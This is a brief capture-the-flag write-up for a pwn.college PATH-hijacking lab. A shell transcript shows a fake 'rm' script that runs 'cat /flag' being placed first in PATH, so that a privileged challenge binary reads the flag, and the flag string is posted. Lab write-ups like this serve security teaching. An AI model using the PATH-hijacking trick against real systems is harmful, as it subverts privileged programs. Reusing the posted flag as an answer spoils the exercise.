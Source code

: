 # Hijacking Commands

## My solve
**Flag:** `pwn.college{0-qiTRvDHMM-8iVQKV1ABgmdawN.QX3cjM1wyM1gjNzEzW}`

```bash
Connected!
hacker@path~hijacking-commands:~$ which rm
/run/dojo/bin/rm
hacker@path~hijacking-commands:~$ mkdir ~/newcommand
hacker@path~hijacking-commands:~$ nano ~/newcommand/rm
hacker@path~hijacking-commands:~$ chmod +x ~/newcommand/rm
hacker@path~hijacking-commands:~$ PATH=~/newcommand:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/newcommand/rm. Executing!
pwn.college{0-qiTRvDHMM-8iVQKV1ABgmdawN.QX3cjM1wyM1gjNzEzW}
```

in the bash script
```bash
#!/bin/bash
cat /flag
```

## Incorrect tangents I went on
None

## What I learned
revised all concepts

## References 
None
